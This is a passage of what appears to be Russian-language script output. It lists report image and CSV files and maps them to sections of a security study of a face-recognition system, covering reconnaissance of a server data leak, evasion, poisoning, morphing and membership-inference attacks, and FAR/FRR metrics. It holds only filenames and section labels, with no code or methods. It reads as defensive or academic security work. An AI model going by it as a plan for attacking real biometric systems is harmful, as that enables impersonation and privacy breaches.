  Атака 1 (evasion) ......... attack1_chart.png, attack1_examples.png,
                              attack1_curves.png, attack1b_hillclimb.png,
                              evasion_hillclimb.jpg (итоговое искажённое фото)
  Атака 2 (poisoning) ....... attack2_profile_base.png, attack2_added.png, attack2_result.png
  Атака 3 (morphing) ........ attack3_morph_trio.png, attack3_morph.png
  Атака 4 (membership) ...... results/attack4_membership.csv
  Метрики FAR/FRR ........... results/metrics_far_frr.csv
  Итоги ..................... results/summary.csv
""")

Собрано 23 файлов в results\report_images:
  - attack1_chart.png
  - attack1_examples.png
  - attack2_added.png
  - attack2_profile_base.png
  - attack2_result.png
  - attack2_victim_base.png
  - attack3_morph_trio.png
  - leak_what_server_returns.png
  - photos_bradpitt.png
  - photos_me.png
  - photos_overview.png
  - photos_sh.png
  - photos_stallone.png
  - photos_tob.png
  - photos_vl.png
  - evasion_hillclimb.jpg
  - morph_best.jpg
  - prep_attacker.jpg
  - prep_victim.jpg
  - attack1_curves.png
  - attack1b_hillclimb.png
  - attack3_morph.png
  - farfrr_hist.png

Как разложить картинки по разделам отчёта:
  Подготовка / модель угроз . photos_overview.png, photos_me.png, photos_bradpitt.png
  Разведка (утечка данных) .. leak_what_server_returns.png, openapi_routes.json,
                              твои скриншоты Network/Response и веб-интерфейса
  Атака 1 (evasion) ......... attack1_chart.png, attack1_examples.png,
                              attack1_curves.png, attack1b_hill